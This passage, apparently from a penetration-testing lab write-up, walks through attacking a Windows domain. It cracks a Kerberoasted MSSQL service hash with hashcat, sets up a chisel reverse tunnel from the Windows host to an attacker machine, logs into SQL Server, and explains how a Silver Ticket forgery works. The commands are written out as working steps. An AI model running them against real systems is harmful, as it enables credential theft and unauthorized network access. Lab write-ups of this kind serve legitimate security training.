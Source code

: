```bash
hashcat -m 13100 svc_mssql.hash /usr/share/wordlists/rockyou.txt
```

![image.png](image%2025.png)

![image.png](image%2026.png)

I am gonna forward that port to linux machine, and try to authenticate to it from there, as I cannot in Windows. Let’s use `chisel` for that.

**Reverse Individual Port Forwarding with Chisel**

Server (Linux Host):

```bash
./chisel_1.10.1_linux_amd64 server --reverse --port 51234
```

Client (Windows Server):

```bash
.\chisel_windows.exe client 192.168.45.223:51234 R:1433:127.0.0.1:1433
```

```bash
mssqlclient.py svc_mssql@127.0.0.1 -windows-auth
```

![image.png](image%2027.png)

```sql
SELECT * FROM master.dbo.sysdatabases
```

![image.png](image%2028.png)

We just have default databases. 

Moreover we don’t have `xp_cmdshell` privileges. What we can try and is left is `Silver Ticket` attack. We have service account hash. Attackers forge Kerberos service tickets(TGS) using a compromised service account's password hash, granting themselves unauthorized access **to the service of SPN** with elevated privileges. Which means we can forge a TGS for specific service using its service account password hash, and access that service with Administrator privileges.

In short: We bypass authentication by presenting service ticket hash and get privileges based on impersonated user.

We need:

1. NT hash of service account
2. Domain SID

<aside>
💡

We can use nonexistent SPN for this purpose, it doesn’t  matter.

</aside>
